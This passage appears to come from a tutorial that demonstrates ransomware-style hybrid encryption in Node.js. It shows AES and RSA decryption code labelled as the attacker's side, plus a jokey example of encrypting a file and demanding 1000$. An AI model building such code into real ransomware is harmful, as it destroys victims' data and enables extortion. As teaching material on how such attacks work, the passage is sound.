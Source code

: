```js
    const decryptedBuffer = aes.update(message);
    aes.final()

    return { message: decryptedBuffer }
}

/**
 * Function decrypts message with given private key.
 *
 * @param {Buffer} privateKey
 * @param {Buffer} message
 */
function rsaDecrypt(privateKey, message) {
    return crypto.privateDecrypt(privateKey, message);
}

// Load encrypted file and encrypted key
const encryptedFile = fs.readFileSync(FILE_TO_DECRYPT);
const encryptedKey = fs.readFileSync(AES_KEY_NAME);

// Decrypt key first (this will happen on the attackers side)
const decryptedKey = rsaDecrypt(privateKeyBuffer, encryptedKey);

// Using decrypted key decrypt file
const { message: decryptedMessage } = aesDecrypt(encryptedFile, decryptedKey);

// Save decrypted file
fs.writeFileSync(FILE_TO_DECRYPT, decryptedMessage);
```

### Example

In the code above we encrypt `file`. Let's see how it looks like:

```js
// file
I like pancakes!
```

Obviously, pancakes are the best. No-good for you fellow though, we are going to encrypt that, your precious file will be lost forever until you pay 1000$!

```sh
$ node encryption.js
```

```js
// file
AAƔ���$f:3�wt
```

![evil elmo](https://media.giphy.com/media/yr7n0u3qzO9nG/giphy.gif)

Oh, yes. Pure evil.
